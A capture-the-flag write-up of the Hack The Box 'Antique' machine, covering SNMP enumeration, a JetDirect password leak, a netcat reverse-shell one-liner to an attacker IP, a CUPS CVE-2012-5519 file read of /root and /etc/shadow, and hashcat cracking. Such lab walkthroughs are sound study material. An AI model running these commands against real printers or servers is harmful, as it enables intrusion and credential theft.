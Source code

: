 ```yaml
---
date: 2025-04-11
categories: [CTF, HTB]
title: "HTB - Printer Exploitation Track - Antique"
tags: ['printer', 'pjl', 'pret']

description: "Printer Exploitation Track - - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Printer Exploitation Track - Antique


![image1](../resources/4ab4a45e16964c82b4a94cfe78f5a6f1.png)

![image2](../resources/b9c665893d0d4a9bb06cf3fb233ccfeb.png)

- I couldn't do anything on the telnet connection apart from grab the banner, because I don't know the password

- I came across this site:

`http://www.irongeek.com/i.php?page=security/networkprinterhacking`

- It says that JetAdmin uses SNMP and so I did a UDP scan for SNMP:

![image3](../resources/30fd5ec29f324520bdaea25360df9a44.png)

- And it is using SNMPv1 (according to NMAP)

- But if we use snmpwalk - **we see that v2 is being** used:
```bash
snmpwalk -v 1 -c public 10.129.62.107

```

![image4](../resources/a4d6824c97bd4b9087773c4f6234bb63.png)

```bash
snmpwalk -v 2c -c public 10.129.62.107

```

![image5](../resources/647155bc03b94d36bb4e58d07e2e88f8.png)

**<u>Leak the password</u>**
- According to this article, some JetDirect printers will leak the password (in Hex) if you send a SNMP GET request to a vulnerable printer:
<https://www.exploit-db.com/exploits/22319>

- Using snmpwalk we can add a **.1** to the end to **query ALL**:
```bash
snmpwalk -v 2c -c public 10.129.62.107 .1

```

![image6](../resources/c122c67f32b6493f9f263480d109caeb.png)

- We get the hex back, and can decode it with CyberChef:

![image7](../resources/27a375a3b7b2464dad66418b8e9641af.png)

- We get the password:
**P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy**

- And we are connected (no username - just the password):

![image8](../resources/4751b1eb659941c48b51cff2d3a6ac6d.png)

If the commands doesn't work - close the session and start a new session

- We can use the exec command to execute system commands:

![image9](../resources/13b7c88d840c4def86f0109797990c07.png)

- Set up a listener
- Execute a reverse shell:
```bash
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.29 4444 >/tmp/f

```

![image10](../resources/5b6a9bea2aa8404592bba8dc7852282a.png)


![image11](../resources/a4e9fbecb932482f85d13a46a4e02cf4.png)

- Looking at open ports - we find 631 (Internet Printing Protocol (IPP)) is open:

![image12](../resources/bd07877c03134169bdb907a8383f3c06.png)

<https://book.hacktricks.xyz/network-services-pentesting/pentesting-631-internet-printing-protocol-ipp>

- We can curl to find out more:
```bash
curl http://127.0.0.1:631

```

![image13](../resources/41ecee78d86049a6874e88c32ed27860.png)

- Cups version:

![image14](../resources/24a06f42a552400185eb3e0d405a5d26.png)

- Looking online, we find an exploit for this version CVE-2012–5519:


![image15](../resources/3b9f012adaed4dc89c73740a3768674a.png)

- There is a metasploit module for it:
<https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read>

- But we don't need to use it. We can extract the info from it and just use that:

Read file as root:

- First we need to set the env variable for **ErrorLog** to the file we want to read:
```bash
cupsctl ErrorLog=/root/root.txt

```

![image16](../resources/cfbfb4288bf148afb68839042f40cddc.png)

- Then we need to send a GET request to **/admin/log/error_log?** :

![image17](../resources/f9741cbc1bad4474b430b7304a10a81d.png)

- We can go further and read /etc/shadow and get the root hash:

![image18](../resources/93b1d83fd93443a5b58a3126e80cbe50.png)

- Find the encryption method with:
```bash
grep ENCRYPT_METHOD /etc/login.defs

```

![image19](../resources/480fd9b6907a4ba88990102cae3e5eb3.png)

- I don't know if hashcat will find it but it was taking ages:
```bash
hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```